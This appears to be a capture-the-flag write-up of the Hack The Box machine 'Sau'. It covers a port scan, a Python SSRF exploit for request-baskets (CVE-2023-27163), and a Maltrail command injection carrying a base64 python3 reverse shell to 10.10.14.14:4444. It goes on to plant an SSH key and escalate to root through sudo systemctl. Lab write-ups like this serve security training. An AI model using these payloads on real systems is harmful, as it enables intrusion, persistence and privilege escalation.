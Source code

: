 ![Sau](https://labs.hackthebox.com/storage/avatars/1ea2980b9dc2d11cf6a3f82f10ba8702.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [sau123](https://app.hackthebox.com/users/201596)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.224 -oG scan
	/opt/extractports scan
	nmap -p22,55555 -sCV -Pn 10.10.11.224 -oN ports
	```

	![image](https://github.com/user-attachments/assets/6b6ce761-fcd8-4af9-a1d7-836ab39913f1)

- I start entering the web page and I observe that its CSM is a request-backets version 1.2.1. Searching for information about this I find a vulnerability contained in the [CVE-2023-27163](https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2023-27163) in which it allows to execute a Server-Side Request Forgery (SSRF) making a POST request.



![image](https://github.com/user-attachments/assets/940fe5a1-c6ff-456f-b37d-7ac00ab25aea)

- I created a script to make the calls and exploit this vulnerability.
- When trying to find open ports internally I notice that port 80 takes a long time to answer so I guess it is open internally.
	
	```python
	#!/usr/bin/python
	import requests
	import sys
	import signal
	import time
	import string
	from pwn import *
	
	
	def def_handler(sig, frame):
	        print("\n\n[!]Exiting....\n")
	        sys.exit(1)
	
	signal.signal(signal.SIGINT, def_handler)
	
	def SSRF():
	    p1 = log.progress("Post request")
	    p1.status("Starting")
	    url = "http://10.10.11.224:55555/api/baskets/n0svw6j1"
	    data= {
	        "forward_url": "http://127.0.0.1",
	        "proxy_response": True,
	        "insecure_tls": False,
	        "expand_path": False,
	        "capacity": 200
	    }
	    header= {"Content-Type": "application/json"}
	    response = requests.post(url, json = data, headers = header)
	    print(response.text)
	
	
	if __name__ == '__main__':
	        SSRF()
	
	#Then I have to log in to the website http://10.10.11.224:55555/n0svw6j1
	```

- Instead of using the ip provided by HTB I decide to use localhosts (127.0.0.1) and with this I can see its content.

	![image](https://github.com/user-attachments/assets/f95094ff-9329-4f02-834a-d2fe1b63d802)

- I don't end up seeing the content correctly but I can see at the bottom that you are running a [Mailtrail v0.53](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5). In searching for information about this one I find a vulnerability that allows to execute commands remotely (RCE).
- In order to exploit this vulnerability we will have to send in the username field of the login request the command we want to execute.

	![image](https://github.com/user-attachments/assets/ee170fa3-0467-4166-a1d4-880c0cb68284)

- I decide to run a reverse shell using python3. First converting the payload to base64 to reverse it directly from the victim machine. For this I use this [page](https://www.revshells.com/).

	```python
	cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjE0Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc=
	
	
	username=;`echo%20"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjE0Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc%3D"%20|%20base64%20-d%20|%20sh`
	```

- Once I get an interactive shell as the user puma, I can read the first flag from the system.

	![image](https://github.com/user-attachments/assets/9a8827cf-58db-45f9-8780-3267df74fadf)

- For convenience, I generate an ssh key on my machine and add it to the authorized_keys file on the victim machine. This allows me to connect to the machine in a simpler way.
	
	```python
	ssh-keygen -f key
	echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDDZ8EmdbLXlHYnVjJ/UUFjskwlLg8z590ZXoGV57aAJ root@rufo" >> /home/puma/.ssh/authorized_keys
	
	ssh -i key puma@10.10.11.224
	```

- When querying as the user puma the commands that I can run as root without providing a password, I find systemctl

	![image](https://github.com/user-attachments/assets/be2f015e-856b-4cfc-982e-731f5524ca0c)

- When searching [GTFOBins](https://gtfobins.github.io/gtfobins/sysctl/#suid) for ways to escalate my privileges using this command I can't seem to find one that fits perfectly.
- When executing the command I see that depending on the size of our window it may not show all its output and it stays as the vim editor. This allows me to execute commands and be able to launch a shell as the user running the program. In this case root.
- With this new terminal as the root user I can read the senguda flag of the system.

  ![image](https://github.com/user-attachments/assets/12beb4bc-db6c-4c28-bbfc-d1898a45fe38)	
